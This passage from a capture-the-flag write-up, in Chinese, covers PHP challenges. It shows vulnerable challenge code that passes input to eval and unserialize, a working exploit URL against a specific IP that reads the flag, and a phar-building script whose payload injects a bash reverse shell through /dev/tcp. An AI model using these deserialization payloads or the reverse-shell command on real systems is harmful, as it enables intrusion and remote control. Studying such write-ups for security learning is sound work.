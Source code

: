 ```php
			echo file_get_contents("/".$content);

		}

		 } 
		}
	public function aiisc_to_chr($number){
		if(strlen($number)>2){
		$str = "";
		 $number = str_split($number,2);
		 foreach ($number as $num ) {
		 	$str = $str .chr($num);
		 }
		 return strtolower($str);
		}
		return chr($number);
	}
	public function calc(){
		$gf=$this->gf;
		if(!preg_match('/[a-zA-z0-9]|\&|\^|#|\$|%/', $gf)){
		  	eval('$content='.$gf.';');
		  	$content =  $this->aiisc_to_chr($content); 
		  	return $content;
		}
	}
	public function __destruct(){
        $this->content_to_file($this->calc());
        
    }
	
}
unserialize((base64_decode($_GET['code'])));

?>
```
最后反序列化读flag
```http
http://121.37.181.246:6333/eGlhb2xldW5n/eGlhb2xldW5nLnBocA==.php?code=Tzo1OiJ0cmljayI6MTp7czoyOiJnZiI7czoyMzoifsfJycrHzcvIy8nLycvIyM/IycnKyM4iO30=&pass=a.passwd%0a20200202
```

## webct
有个上传文件的点，和一个连接mysql数据库的点
mysql数据库传入的option参数可控，将其设置为8可以开启MYSQLI_OPT_LOCAL_INFILE。
但是直接读文件失败了，想到构造phar文件让msyql去读取触发反序列化
```php
<?php
class Fileupload
{
    public $file;
}

class Listfile
{
    public $file;
}

$payload=new Listfile();
$payload->file='$(bash -c "bash -i >& /dev/tcp/ip/1234 0>&1")';
$file=new Fileupload();
$file->file=$payload;
unlink("./phar.phar");
$phar = new Phar("./phar.phar");
```